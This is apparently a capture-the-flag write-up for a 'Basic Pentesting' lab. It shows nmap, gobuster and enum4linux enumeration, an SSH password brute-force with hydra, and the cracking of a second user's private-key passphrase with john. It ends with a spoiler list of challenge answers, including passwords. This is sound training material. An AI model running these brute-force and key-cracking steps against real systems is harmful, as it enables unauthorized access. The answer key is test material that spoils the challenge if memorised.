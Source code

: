 # Basic Pentetesting

![](/CTF/1-Easy/basic_pentesting/images/Screenshot_2024-07-05_22-44-39.png)

```bash
export IP=10.10.21.92
```
--------------------------------------------------------------------------------
## Nmap

```bash
nmap -sC -sV -oN nmap.txt $IP -vvv
```

<details>
    <summary>Nmap result:</summary>

    ```bash
    # Nmap 7.94SVN scan initiated Fri Jul  5 22:46:57 2024 as: nmap -sC -sV -oN nmap.txt -vvv 10.10.21.92
    Nmap scan report for 10.10.21.92
    Host is up, received conn-refused (0.22s latency).
    Scanned at 2024-07-05 22:46:58 -03 for 88s
    Not shown: 994 closed tcp ports (conn-refused)
    PORT     STATE SERVICE     REASON  VERSION
    22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZXasCfWSXQ9lYiKbTNkPs0T+wFym2lZy229LllhY6iDLrjm7LIkhCcrlgnJQtLxl5NPhlHNVmwhlkcPPiAHwluhMVE5xKihQj3i+Ucx2IwiFvfmCz4AKsWlR6N8IZe55Ltw0lcH9ykuKZddg81X85EVsNbMacJNjjyxAtwQmJt1F5kB1B2ixgjLLOyNWafC5g1h6XbEgB2wiSRJ5UA8rOZaF28YcDVo0MQhsKpQG/5oPmQUsIeJTUA/XkoWCjvXZqHwv8XInQLQu3VXKgv735G+CJaKzplh7FZyXju8ViDSAY8gdhqpJommYxzqu9s1M31cmFg2fT5V1z9s4DP/vd
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP0SXJpgwPf/e9AT9ri/dlAnkob4PqzMjl2Q9lZIVIXeEFJ9sfRkC+tgSjk9PwK0DUO3JU27pmtAkDL4Mtv9eZw=
    |   256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAzy8ZacWXbPGeqtuiJCnPP0LYZYZlMj5D1ZY9ldg1wU
    80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html).
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13?      syn-ack
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http-proxy  syn-ack
    |_http-title: Apache Tomcat/9.0.7
    |_http-open-proxy: Proxy might be redirecting requests
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-favicon: Apache Tomcat
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
    |     HTTP/1.1 400 
    |     Content-Type: text/html;charset=utf-8
    |     Content-Language: en
    |     Content-Length: 2243
    |     Date: Sat, 06 Jul 2024 01:48:10 GMT
    |     Connection: close
    |     <!doctype html><html lang="en"><head><title>HTTP Status 400 
    |_    Request</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><bod
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8080-TCP:V=7.94SVN%I=7%D=7/5%Time=6688A258%P=x86_64-pc-linux-gnu%r(
    SF:DNSVersionBindReqTCP,95F,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text
    SF:/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x2022
    SF:43\r\nDate:\x20Sat,\x2006\x20Jul\x202024\x2001:48:10\x20GMT\r\nConnecti
    SF:on:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title
    SF:>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\
    SF:x20type=\"text/css\">h1\x20{font-family:Tahoma,Arial,sans-serif;color:w
    SF:hite;background-color:#525D76;font-size:22px;}\x20h2\x20{font-family:Ta
    SF:homa,Arial,sans-serif;color:white;background-color:#525D76;font-size:16
    SF:px;}\x20h3\x20{font-family:Tahoma,Arial,sans-serif;color:white;backgrou
    SF:nd-color:#525D76;font-size:14px;}\x20body\x20{font-family:Tahoma,Arial,
    SF:sans-serif;color:black;background-color:white;}\x20b\x20{font-family:Ta
    SF:homa,Arial,sans-serif;color:white;background-color:#525D76;}\x20p\x20{f
    SF:ont-family:Tahoma,Arial,sans-serif;background:white;color:black;font-si
    SF:ze:12px;}\x20a\x20{color:black;}\x20a\.name\x20{color:black;}\x20\.line
    SF:\x20{height:1px;background-color:#525D76;border:none;}</style></head><b
    SF:od")%r(DNSStatusRequestTCP,95F,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x
    SF:20text/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:
    SF:\x202243\r\nDate:\x20Sat,\x2006\x20Jul\x202024\x2001:48:10\x20GMT\r\nCo
    SF:nnection:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head>
    SF:<title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><
    SF:style\x20type=\"text/css\">h1\x20{font-family:Tahoma,Arial,sans-serif;c
    SF:olor:white;background-color:#525D76;font-size:22px;}\x20h2\x20{font-fam
    SF:ily:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-s
    SF:ize:16px;}\x20h3\x20{font-family:Tahoma,Arial,sans-serif;color:white;ba
    SF:ckground-color:#525D76;font-size:14px;}\x20body\x20{font-family:Tahoma,
    SF:Arial,sans-serif;color:black;background-color:white;}\x20b\x20{font-fam
    SF:ily:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;}\x20p
    SF:\x20{font-family:Tahoma,Arial,sans-serif;background:white;color:black;f
    SF:ont-size:12px;}\x20a\x20{color:black;}\x20a\.name\x20{color:black;}\x20
    SF:\.line\x20{height:1px;background-color:#525D76;border:none;}</style></h
    SF:ead><bod");
    Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: basic2
    |   NetBIOS computer name: BASIC2\x00
    |   Domain name: \x00
    |   FQDN: basic2
    |_  System time: 2024-07-05T21:48:21-04:00
    | smb2-time: 
    |   date: 2024-07-06T01:48:21
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | p2p-conficker: 
    |   Checking for Conficker.C or higher...
    |   Check 1 (port 39475/tcp): CLEAN (Couldn't connect)
    |   Check 2 (port 37829/tcp): CLEAN (Couldn't connect)
    |   Check 3 (port 31097/udp): CLEAN (Failed to receive data)
    |   Check 4 (port 60547/udp): CLEAN (Failed to receive data)
    |_  0/4 checks are positive: Host is CLEAN or ports are blocked
    | nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | Names:
    |   BASIC2<00>           Flags: <unique><active>
    |   BASIC2<03>           Flags: <unique><active>
    |   BASIC2<20>           Flags: <unique><active>
    |   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
    |   WORKGROUP<00>        Flags: <group><active>
    |   WORKGROUP<1d>        Flags: <unique><active>
    |   WORKGROUP<1e>        Flags: <group><active>
    | Statistics:
    |   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    |   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    |_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
    |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 1s

    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Jul  5 22:48:26 2024 -- 1 IP address (1 host up) scanned in 89.07 seconds
    ```

</details>

I found a **samba** service running, let's get more details using `enum4linux`

--------------------------------------------------------------------------------
## Gobuster

```bash
gobuster dir --url $IP --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,js -t 40 -o gobuster-php-html-txt-js.txt
```

```
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 291]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 316] [--> http://10.10.21.92/development/]
```

#### I discovered a directory listing and that there are weak passwords being used by users


<details>
    <summary>Directory Listing:</summary>

    http://10.10.21.92/development/j.txt
    
    
    ```
    For J:

        I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
        and I was able to crack your hash really easily. You know our password policy, so please follow
        it? Change that password ASAP.

        -K
    ```
</details>

--------------------------------------------------------------------------------
## Enum4linux

```bash
enum4linux -a $IP 
```

#### I found two users

<details>
    <summary>Users:</summary>

    ```
    S-1-22-1-1000 Unix User\kay (Local User)                                                                 
    S-1-22-1-1001 Unix User\jan (Local User)
    ```
</details>


--------------------------------------------------------------------------------
## Hydra


```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -vV $IP ssh
```

#### Found the password

<details>
    <summary>Password:</summary>

    ```
        armando
    ```
    
</details>

--------------------------------------------------------------------------------
## SSH

#### Successful SSH login
<details>
    <summary>Successful login:</summary>

    ```bash
    $ ssh jan@$IP
    jan@basic2:~$ 
    ```
    
</details>

##### Found important content in user kay's folder
```bash
jan@basic2:/home/kay$ ls -Filha
total 48K
786930 drwxr-xr-x 5 kay  kay  4.0K Apr 23  2018 ./
655362 drwxr-xr-x 4 root root 4.0K Apr 19  2018 ../
793456 -rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
793583 -rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
792902 -rw-r--r-- 1 kay  kay  3.7K Apr 17  2018 .bashrc
793590 drwx------ 2 kay  kay  4.0K Apr 17  2018 .cache/
786444 -rw------- 1 root kay   119 Apr 23  2018 .lesshst
798919 drwxrwxr-x 2 kay  kay  4.0K Apr 23  2018 .nano/
798920 -rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
792307 -rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
798691 drwxr-xr-x 2 kay  kay  4.0K Apr 23  2018 .ssh/
793592 -rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
798922 -rw------- 1 root kay   538 Apr 23  2018 .viminfo

```

##### I rescued Kay's ssh key, I will try to log into her account
> password is pending, I will try to break it with John

--------------------------------------------------------------------------------
## John


```bash
$ ssh2john kay_id_rsa > hash 

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

$ chmod 600 kay_id_rsa
```

##### We found the password
<details>
    <summary>Password:</summary>

    ```
     beeswax
    ```
    
</details>

#### Login successfully and get the final password
<details>
    <summary>Final Password</summary>
        <p>
            <img src="/CTF/1-Easy/basic_pentesting/images/Screenshot_2024-07-06_00-00-41.png">
        </p>

</details>

--------------------------------------------------------------------------------

## Spoiler alert

<details>
    <summary>What is the name of the hidden directory on the web server(enter name without /)?</summary>

    ```
    development
    ```

</details>

<details>
    <summary>What is the username?</summary>

    ```
    jan
    ```

</details>

<details>
    <summary>What is the password?</summary>

    ```
    armando
    ```

</details>
<details>
    <summary>What service do you use to access the server(answer in abbreviation in all caps)?</summary>

    ```
    SSH
    ```

</details>
<details>
    <summary>What is the name of the other user you found(all lower case)?</summary>

    ```
    kay
    ```

</details>
<details>
    <summary>What is the final password you obtain?</summary>

    ```
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```

</details>

